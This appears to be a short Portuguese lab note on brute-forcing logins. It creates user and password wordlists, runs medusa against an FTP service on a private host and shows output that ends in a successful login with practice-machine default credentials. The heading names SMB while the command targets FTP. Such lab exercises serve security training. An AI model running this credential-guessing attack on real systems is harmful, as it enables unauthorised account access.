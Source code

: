 ----
#### Criando wordlist smb
```shell
#Usuários
echo -e "user\nadmin\nmsfadmin\nsilvano" > users_smb.txt 

#Senhas
echo -e "123456\nadm\nmsfadmin\nsilverado" > pass_smb.txt
```

#### Ataque

```shell
medusa -h 192.168.x.x -U users_smb.txt -P pass_smb.txt -M ftp -t 2 -T 50

#saída

2025-10-16 18:27:53 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 0 complete) Password: 123456 (1 of 4 complete)
2025-10-16 18:27:53 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 0 complete) Password: adm (2 of 4 complete)
2025-10-16 18:27:56 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 0 complete) Password: msfadmin (3 of 4 complete)
2025-10-16 18:27:56 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 0 complete) Password: silverado (4 of 4 complete)
2025-10-16 18:27:59 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: admin (2 of 4, 1 complete) Password: 123456 (1 of 4 complete)
2025-10-16 18:27:59 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: admin (2 of 4, 1 complete) Password: adm (2 of 4 complete)
2025-10-16 18:28:02 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: admin (2 of 4, 1 complete) Password: msfadmin (3 of 4 complete)
2025-10-16 18:28:02 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: admin (2 of 4, 2 complete) Password: silverado (4 of 4 complete)
2025-10-16 18:28:05 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: msfadmin (3 of 4, 2 complete) Password: 123456 (1 of 4 complete)
2025-10-16 18:28:05 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: msfadmin (3 of 4, 2 complete) Password: msfadmin (2 of 4 complete)
2025-10-16 18:28:05 ACCOUNT FOUND: [ftp] Host: 192.168.x.x User: msfadmin Password: msfadmin [SUCCESS]
2025-10-16 18:28:05 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: msfadmin (3 of 4, 3 complete) Password: adm (3 of 4 complete)
2025-10-16 18:28:08 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: silvano (4 of 4, 3 complete) Password: adm (1 of 4 complete)
2025-10-16 18:28:08 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: silvano (4 of 4, 3 complete) Password: 123456 (2 of 4 complete)
2025-10-16 18:28:11 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: silvano (4 of 4, 3 complete) Password: msfadmin (3 of 4 complete)
2025-10-16 18:28:11 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: silvano (4 of 4, 4 complete) Password: silverado (4 of 4 complete)

```
